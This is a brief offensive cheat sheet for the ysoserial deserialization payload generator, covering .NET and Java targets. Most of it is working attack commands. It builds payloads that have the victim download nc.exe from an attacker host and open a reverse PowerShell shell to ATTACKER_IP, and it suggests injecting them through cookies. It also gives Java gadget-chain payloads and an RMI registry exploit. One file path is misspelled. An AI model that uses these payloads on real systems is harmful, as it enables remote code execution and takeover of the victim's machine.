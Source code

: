 # Ysoserial Deserialization Payload Generator

## Languages supported: .NET ASP, Java

## Repos: 

### https://github.com/frohoff/ysoserial (Java)

### https://github.com/pwntester/ysoserial.net (.NET ASP)

### Usage:

## .NET Deserialization

 - unzip the zipped ysoserial file if you have downloaded it from the releases of the repository
 
 - .\ysoserial.exe -f JavaScriptSerializer -o base64 -g ObjectDataProvider -c "cmd /c curl ATTACKER_IP/nc.exe -o C:\ProgramData\nc.exe"

 - .\ysoserial.exe -f JavaScriptSerializer -o base64 -g ObjectDataProvider -c "cmd /c C:\ProrgamData\nc.exe -e powershell ATTACKER_IP PORT"

### Inject the payload somewhere that uses serialized data like cookies (example)

## Java

 - java -jar ysoserial.jar CommonsCollection1 calc.exe | xxd

 - java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin

 - nc 10.10.10.10 1099 < groovypayload.bin

 - java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe


